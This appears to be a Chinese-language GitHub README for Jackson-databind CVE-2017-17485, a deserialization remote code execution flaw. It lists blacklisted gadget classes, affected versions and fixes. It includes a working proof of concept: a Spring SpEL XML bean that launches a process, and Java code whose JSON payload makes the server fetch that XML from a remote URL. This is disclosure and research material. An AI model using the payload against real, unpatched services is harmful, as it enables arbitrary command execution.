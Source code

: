 # Jackson 反序列化

## 漏洞描述

### CVE-2017-7525

CVE-2017-7525详情 https://github.com/iBearcat/S2-055

官方在漏洞产生后，通过黑名单的方式禁止黑名单中的第三方库反序列化问题而产生的代码执行漏洞,黑名单是一种不可靠的修复方式，攻击者常常可以通过一些手段绕过黑名单，造成新漏洞产生，可以说是S2-055的绕过。

黑名单如下：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

```
### 新漏洞的产生CVE-2017-17485
在开启enableDefaultTyping()的前提下可以通过Jackson-databind来滥用Spring spel来执行任意命令。

## 影响范围

### 受影响的版本

Jackson-databind version <= 2.9.3

Jackson-databind version <= 2.7.9.1

Jackson-databind version <= 2.8.10

### 不受影响的版本

Jackson-databind version 2.9.3.1

Jackson-databind version 2.7.9.2

Jackson-databind version 2.8.11

## 漏洞验证

本项目中的war包基于廖师傅 https://github.com/shengqi158/Jackson-databind-RCE-PoC 的改造

基友的 https://github.com/hucheat/vulns/tree/master/cve-2017-17485_web_vuln


#### Spring spel
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```
#### 验证代码
```
package jackson;

import java.io.IOException;

import com.fasterxml.jackson.databind.ObjectMapper;

/**
 * Jackson CVE-2017-17485
 * 2018-01-22
 * @author Bearcat
 *
 */
public class poc {
	public static void payload() {
		/*
		 * 假设是攻击者的恶意JSON请求数据
		 * ["org.springframework.context.support.ClassPathXmlApplicationContext", "http://127.0.0.1/spel.xml"]
		 * 
		 */
		String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", " +
	                "\"https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/spel.xml\"]\n";
		System.out.println(payload);
		ObjectMapper mapper = new ObjectMapper();
		mapper.enableDefaultTyping();
		try {
			mapper.readValue(payload, Object.class);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String args[]) {
		payload();
	}
}
```
![payload](https://raw.githubusercontent.com/iBearcat/Jackson-CVE-2017-17485/master/img/1.jpg)
官方已经更新黑名单列表，并计划在Jackson的大版本3.X通过api层实现基于白名单的序列化方式来应对多态类：
```
org.apache.commons.collections.functors.InvokerTransformer
org.apache.commons.collections.functors.InstantiateTransformer
org.apache.commons.collections4.functors.InvokerTransformer
org.apache.commons.collections4.functors.InstantiateTransformer
org.codehaus.groovy.runtime.ConvertedClosure
org.codehaus.groovy.runtime.MethodClosure
org.springframework.beans.factory.ObjectFactory
com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
org.apache.xalan.xsltc.trax.TemplatesImpl
com.sun.rowset.JdbcRowSetImpl
java.util.logging.FileHandler
java.rmi.server.UnicastRemoteObject
org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor
org.springframework.beans.factory.config.PropertyPathFactoryBean
com.mchange.v2.c3p0.JndiRefForwardingDataSource
com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
```
## 修复建议
升级到最新版本jackson-databind 2.7.9.2，2.8.11，2.9.3.1（2018-01-13 00:04:20该版本还未发布）。

禁用enableDefaultTyping()方法。

对客户端传入的JSON数据，进行过滤或者类型检查。
